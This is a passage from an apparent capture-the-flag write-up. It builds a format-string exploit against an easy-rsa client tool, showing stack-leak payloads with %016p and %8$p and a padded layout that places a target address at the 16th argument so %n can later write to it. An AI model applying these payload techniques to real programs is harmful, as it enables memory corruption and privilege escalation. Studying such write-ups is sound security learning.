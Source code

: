 #### POC Write Memory

The next thing I need to do is write memory to a known address. With all of the other specifiers, they read a value or a string and put it into the string. `%n` is different. It takes an address, and writes to that address the number of bytes output so far.

I want the `%n` to read the address of `ERSA_DIR`, so I’ll exploit the format string vuln again, this time with that address on the stack in a place I can reference it. I already noted it above, but it’s more clear with `AAAAAAAA%016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p` as input:

```

print->CN=AAAAAAAA%016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p.
AAAAAAAA0x005602a095415f.0x00000000000005.0x000000006e7076.0x00000000000017.0x007ffee58fbb10.0x000001a09501d0.           (nil).0x4141414141414141.[!] ERR reading /opt/easyrsa/clients/AAAAAAAA%016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p..ovpn!

```

The eighth word has all 0x41, which is “A”. I can reference the eighth word by `%8$p`:

```

print->CN=AAAAAAAA%8$p
AAAAAAAA0x4141414141414141[!] ERR reading /opt/easyrsa/clients/AAAAAAAA%8$p.ovpn!

```

That replaces `%8$p` with the eighth argument on the stack, which happens to be the string of As.

The next logical step would be to replace the eight As with the address of `ERSA_DIR` and try to print that back, but it didn’t work. That’s because the first couple bytes in the address of `ERSA_DIR` are null, and thus they terminate the string. The format string is [defined](https://man7.org/linux/man-pages/man3/printf.3.html) as a “character string”, and it’s undefined how to handle null bytes, but it makes sense that when it hits these null bytes the string is treated as complete (since null bytes mark the end of a string).

To get around this, I’ll put the address at the end of the string. I want this address to be at a fixed point relative to my input, even if my input changes, so I’ll create a fixed length of space for various format strings, and then put the address, and try to print it. After some playing around, I found that with 64 bytes for format string and then the address, the address was the 16th argument:

```

print->CN=%16$016pAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB
0x4242424242424242AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB[!] ERR reading /opt/easyrsa/clients/%16$016pAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB.ovpn!

```

This gives me a lot of space to change the start of the payload, and as long as I adjust the padding, the address (right now `BBBBBBBB`) will stay in the same place. I can use this template, replacing the As with other specifiers as needed, and leave the address at that offset, and now know how to reference it.

I’ll add this line before the last `p.interactive()` line in my script:
